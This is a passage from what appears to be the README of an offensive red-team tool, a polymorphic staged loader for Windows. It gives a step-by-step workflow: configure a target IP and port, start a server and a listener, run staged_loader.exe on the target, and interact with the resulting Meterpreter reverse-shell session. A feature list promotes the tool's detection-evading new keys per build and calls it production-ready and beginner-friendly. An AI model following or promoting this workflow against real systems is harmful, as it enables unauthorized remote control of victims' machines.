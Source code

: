 **For Everyone:**
- `README.md` - Full documentation with:
  - Features
  - Installation
  - Usage
  - How it works
  - Troubleshooting
  - Advanced usage

**Auto-Generated:**
- `USAGE.md` - Created by setup.sh with your specific config

---

## 🔄 Workflow After Setup

### Every Red Team Operation:

**1. Generate for target:**
```bash
./setup.sh    # Enter target IP/Port
```

**2. Deploy:**
```bash
# Terminal 1
./start_server.sh

# Terminal 2
./start_listener.sh

# Windows target
Run staged_loader.exe
```

**3. Get shell:**
```bash
sessions -l
sessions -i 1
meterpreter >
```

---

## 🎯 What Makes This Special

✅ **Fully Automated** - One command setup
✅ **No Manual Steps** - Script does everything
✅ **Polymorphic** - New keys per build
✅ **Well Documented** - 3 markdown guides
✅ **Production Ready** - Tested and working
✅ **Git Ready** - .gitignore configured
✅ **Beginner Friendly** - QUICKSTART guide
✅ **Advanced Features** - README covers everything

---